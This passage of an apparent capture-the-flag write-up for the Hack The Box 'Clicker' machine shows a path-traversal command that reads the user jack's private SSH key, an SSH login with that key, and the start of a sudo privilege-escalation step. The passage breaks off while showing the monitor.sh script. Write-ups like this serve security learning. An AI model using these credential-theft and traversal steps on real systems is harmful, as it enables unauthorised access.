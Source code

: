 So seeing that user 1000 was jack this means that this script could read any file that jack has access too. i then tried to extract the SSH key using the following command.

```
./execute_query 6 ../.ssh/id_rsa
```

![Binary in opt](/assets/img/Clicker/Clicker_09.png)


Now that we have the SSH key we can log in usign it 
```
ssh -i id_rsa jack@clicker.htb
```
## Privilege Escalation

Then after logging in i ran **Sudo -l** as a sanity check and we could run the following  the /opt/monitor.sh script with sudo


![Can run script as root](/assets/img/Clicker/Clicker_10.png)

First up we checked the contents of the script you're allowed to run.
```
#!/bin/bash
if [ "$EUID" -ne 0 ]
  then echo "Error, please run as root"
  exit
fi

set PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
unset PERL5LIB;
unset PERLLIB;

```